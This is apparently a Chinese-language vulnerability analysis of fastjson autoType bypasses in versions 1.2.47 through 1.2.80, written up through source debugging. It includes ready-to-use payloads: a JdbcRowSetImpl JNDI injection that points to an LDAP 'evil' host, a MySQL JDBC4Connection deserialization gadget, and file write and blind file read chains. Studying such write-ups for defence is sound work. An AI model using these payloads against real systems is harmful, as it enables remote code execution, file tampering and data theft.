#### 1.2.47

跟进 checkAutoType 函数，这一部分应该是做黑名单过滤



接下来，没开启 autotypeSupport，不用管以下代码

```java
if (autoTypeSupport || expectClass != null) {
    long hash = h3;
    for (int i = 3; i < className.length(); ++i) {
        hash ^= className.charAt(i);
        hash *= PRIME;
        if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
            clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
            if (clazz != null) {
                return clazz;
            }
        }
        if (Arrays.binarySearch(denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
            throw new JSONException("autoType is not support. " + typeName);
        }
    }
}
```

从 deserializers mappings 中查找有无该类缓存

```java
if (clazz == null) {
    clazz = TypeUtils.getClassFromMapping(typeName);
}

if (clazz == null) {
    clazz = deserializers.findClass(typeName);
}

if (clazz != null) {
    if (expectClass != null
            && clazz != java.util.HashMap.class
            && !expectClass.isAssignableFrom(clazz)) {
        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
    }

    return clazz;
}
```

没开启 autotype ，进行黑白名单检查

```java
if (!autoTypeSupport) {
    long hash = h3;
    for (int i = 3; i < className.length(); ++i) {
        char c = className.charAt(i);
        hash ^= c;
        hash *= PRIME;

        if (Arrays.binarySearch(denyHashCodes, hash) >= 0) {
            throw new JSONException("autoType is not support. " + typeName);
        }

        if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
            if (clazz == null) {
                clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
            }

            if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
            }

            return clazz;
        }
    }
}
```

```java
String payload = "{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"}," +
                "\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":" +
                "\"ldap://127.0.0.1:1389/evil\",\"autoCommit\":true}}}"
```

使用该 payload 重新调试，这里使用 java.lang.Class ，这样能够在 deserializers 中找到对应的 clazz 



然后 checkAutoType 函数直接返回该 clazz (java.lang.Class)



继续调试，得到的反序列化器是 MiscCodec 



然后反序列化对象

```java
Object obj = deserializer.deserialze(this, clazz, fieldName);
```

跟进该方法，先判断是否是 InetSocketAddress.class ,这里是 Class.class ,因此直接跳过，来到这里，处理相应状态，从 @type 到普通解析，如果 lexer 当前 token 是字符串，必须是 val ，然后开始解析 val 对应的值，赋值给 objVal 

```java
if (parser.resolveStatus == DefaultJSONParser.TypeNameRedirect) {
    parser.resolveStatus = DefaultJSONParser.NONE;
    parser.accept(JSONToken.COMMA);

    if (lexer.token() == JSONToken.LITERAL_STRING) {
        if (!"val".equals(lexer.stringVal())) {
            throw new JSONException("syntax error");
        }
        lexer.nextToken();
    } else {
        throw new JSONException("syntax error");
    }

    parser.accept(JSONToken.COLON);

    objVal = parser.parse();

    parser.accept(JSONToken.RBRACE);
```



往下调试，加载 strVal 对象，



最终会存放在 mappings 缓存表中



导致后面可以绕过校验直接反序列化 jdbcRowSetImpl 对象。后续就是触发 setter 方法，打 jndi




#### 1.2.68

TypeUtils.loadClass 方法 cache 默认 false , 1.2.47 漏洞修复。




跟进 checkAutoType 函数，

判断非空 safeMode expectClass hash 黑白名单比对，我没有对比之前版本查看逻辑有无变化，对新增的部分进行分析，

读取该类的字节码，判断结构是否有 json 注解，

```java
boolean jsonType = false;
InputStream is = null;
try {
    String resource = typeName.replace('.', '/') + ".class";
    if (defaultClassLoader != null) {
        is = defaultClassLoader.getResourceAsStream(resource);
    } else {
        is = ParserConfig.class.getClassLoader().getResourceAsStream(resource);
    }
    if (is != null) {
        ClassReader classReader = new ClassReader(is, true);
        TypeCollector visitor = new TypeCollector("<clinit>", new Class[0]);
        classReader.accept(visitor);
        jsonType = visitor.hasJsonType();
    }
} catch (Exception e) {
    // skip
} finally {
    IOUtils.close(is);
}
```

autoTypeSupport || jsonType || expectClassFlag 满足其一可加载当前类，如果 jsonType ，则加入 mappings 返回 clazz ,如果 expectClass ，判断 clazz 是否是其或者其子类，满足条件可以加入 mappings 并然后 clazz 

```java
final int mask = Feature.SupportAutoType.mask;
boolean autoTypeSupport = this.autoTypeSupport
        || (features & mask) != 0
        || (JSON.DEFAULT_PARSER_FEATURE & mask) != 0;

if (autoTypeSupport || jsonType || expectClassFlag) {
    boolean cacheClass = autoTypeSupport || jsonType;
    clazz = TypeUtils.loadClass(typeName, defaultClassLoader, cacheClass);
}

if (clazz != null) {
    if (jsonType) {
        TypeUtils.addMapping(typeName, clazz);
        return clazz;
    }

    if (ClassLoader.class.isAssignableFrom(clazz) // classloader is danger
            || javax.sql.DataSource.class.isAssignableFrom(clazz) // dataSource can load jdbc driver
            || javax.sql.RowSet.class.isAssignableFrom(clazz) //
            ) {
        throw new JSONException("autoType is not support. " + typeName);
    }

    if (expectClass != null) {
        if (expectClass.isAssignableFrom(clazz)) {
            TypeUtils.addMapping(typeName, clazz);
            return clazz;
        } else {
            throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
        }
    }

    JavaBeanInfo beanInfo = JavaBeanInfo.build(clazz, clazz, propertyNamingStrategy);
    if (beanInfo.creatorConstructor != null && autoTypeSupport) {
        throw new JSONException("autoType is not support. " + typeName);
    }
}
```

存在 JSONType 注解的类大概率是 业务 POJO （）

因此从 expectClass 入手






很多 gadget 类似 templatesimpl 需要 getter 方法触发，所以 throwable 异常抛出类大概没有用处。


```
{"@type": "java.lang.AutoCloseable","@type": "java.io.FileOutputStream","file": "/tmp/asdasd","append": true}
```

反序列化 AutoCloseable 对象时，给的反序列化器为 javaBeanDeserializer ,读取到下一个 @type 重新解析新的类需要的 反序列化器，从默认的DefaultJSONParser 转换到  javaBeanDeserializer，其 checkAutoType 函数中存在 expectClass 可以借此绕过。 解析这样的一段 json 数据，第一个 @type 属于通用 JSON 解析，然后进入 JavaBean 绑定阶段，再次遇到 @type, 将第一个 @type 的值作为 expectClass ，检查第二个 @type 的值是不是第一个 @type 值的子类或本身，然后决定是否创建对象实例往下正常解析。

```java
{
    "@type":"java.lang.AutoCloseable",
    "@type":"java.io.FileOutputStream"
}
```



后面就是 setter 方法， getter 方法接 gadget 了。

##### 1.JDBC4Connection

环境

```xml
<dependency>
    <groupId>mysql</groupId>

    <artifactId>mysql-connector-java</artifactId>

    <version>5.1.30</version>

</dependency>

```

payload 

```
"{\"name\": {\"@type\": \"java.lang.AutoCloseable\", \"@type\": \"com.mysql.jdbc.JDBC4Connection\", \"hostToConnectTo\": \"localhost\", \"portToConnectTo\": 11111, \"info\": { \"user\": \"calc\", \"password\": \"123\", \"statementInterceptors\": \"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor\", \"autoDeserialize\": \"true\", \"NUM_HOSTS\": \"1\" }}";
```

JDBC4Connection 是 AutoCloseable 的子类实现

往下跟进到创建 com.mysql.jdbc.JDBC4Connection 实例，




##### 2.读写文件

写文件如下

```json
{
    "@type": "java.lang.AutoCloseable",
    "@type": "sun.rmi.server.MarshalOutputStream",
    "out": {
        "@type": "java.util.zip.InflaterOutputStream",
        "out": {
           "@type": "java.io.FileOutputStream",
           "file": "./a",
           "append": true
        },
        "infl": {
           "input": {
               "array": "eJxLLE5JTCkGAAh5AnE=",
               "limit": 14
           }
        },
        "bufLen": "100"
    },
    "protocolVersion": 1
}
```

读文件

```json
{
  "abc":{"@type": "java.lang.AutoCloseable",
    "@type": "org.apache.commons.io.input.BOMInputStream",
    "delegate": {"@type": "org.apache.commons.io.input.ReaderInputStream",
      "reader": { "@type": "jdk.nashorn.api.scripting.URLReader",
        "url": "file:///tmp/"
      },
      "charsetName": "UTF-8",
      "bufferSize": 1024
    },"boms": [
      {
        "@type": "org.apache.commons.io.ByteOrderMark",
        "charsetName": "UTF-8",
        "bytes": [
          ...
        ]
      }
    ]
  },
  "address" : {"$ref":"$.abc.BOM.charsetName"}
}
```

判断正确的响应

```
{"abc":{"bOM":{"bytes":"YQ==","charsetName":"UTF-8"},"bOMCharsetName":"UTF-8"},"address":"UTF-8"}
```

不正确则为

```
{"abc":{}}
```

以此来盲注

####  1.2.80

同样是利用期望类， Throwable


#### 版本信息探测

去掉 } ，报错时会带出 version



```
 {"@type":"java.lang.AutoCloseable" 
```


**参考文档**

https://xz.aliyun.com/picture-word?id=302

https://forum.butian.net/share/4427

https://forum.butian.net/share/2858
